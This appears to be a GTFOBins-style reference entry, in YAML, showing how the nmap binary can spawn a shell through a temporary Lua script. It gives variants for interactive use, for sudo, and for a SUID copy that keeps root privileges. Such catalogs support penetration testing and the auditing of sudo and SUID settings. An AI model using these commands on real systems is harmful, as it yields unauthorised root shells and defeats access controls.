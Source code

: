 ```yaml
---
functions:
  execute-interactive:
    - description: Echoing of input characters is disabled.
      code: |
        TF=$(mktemp)
        echo 'os.execute("/bin/sh")' > $TF
        nmap --script=$TF
  sudo-enabled:
    - description: Echoing of input characters is disabled.
      code: |
        TF=$(mktemp)
        echo 'os.execute("/bin/sh")' > $TF
        sudo nmap --script=$TF
  suid-enabled:
    - description: Echoing of input characters is disabled.
      code: |
        TF=$(mktemp)
        echo 'os.execute("/bin/sh -p")' > $TF
        ./nmap --script=$TF
---
```

